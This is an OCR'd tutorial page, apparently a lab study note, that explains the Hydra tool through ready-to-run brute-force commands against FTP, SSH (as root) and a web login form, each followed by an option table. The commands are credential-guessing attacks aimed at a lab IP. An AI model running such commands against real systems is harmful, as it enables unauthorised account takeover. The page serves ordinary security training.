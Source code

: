 

## 🔹 Example 1: FTP Brute Force
```
hydra -l user -P passlist.txt ftp://10.201.1.164
```
- `-l user` → sets username as `user`
- `-P passlist.txt` → uses a wordlist of passwords
- `ftp://10.201.1.164` → target service and IP

👉 Hydra will try each password from `passlist.txt` for username `user` on FTP.



## 🔹 Example 2: SSH Brute Force
```
hydra -l root -P passwords.txt 10.201.1.164 -t 4 ssh
```
| Option | Meaning |
|--------|---------|
| `-l root` | username is `root` |
| `-P passwords.txt` | password list to try |
| `10.201.1.164` | target machine IP |
| `-t 4` | use 4 parallel threads (faster) |
| `ssh` | protocol (SSH login) |

👉 Hydra will test all passwords from `passwords.txt` with username `root` over SSH.  
👉 Multiple threads = faster cracking.



## 🔹 Example 3: Web Form (POST Method)
Hydra can also brute force web forms.

### Command:
```
hydra -l <username> -P <wordlist> 10.201.1.164 http-post-form "<path>:<login_credentials>:<invalid_response>"
```
### Options Explained:
| Option | Meaning |
|--------|----------|
| `-l <username>` | fixed username |
| `-P <wordlist>` | list of passwords |
| `http-post-form` | tells Hydra we are attacking a POST login form |
| `<path>` | login page (e.g., `/login.php`) |
| `<login_credentials>` | format → `username=^USER^&password=^PASS^` |
| `<invalid_response>` | string shown on failed login (e.g., "incorrect") |
| `-V` | verbose → shows every attempt |
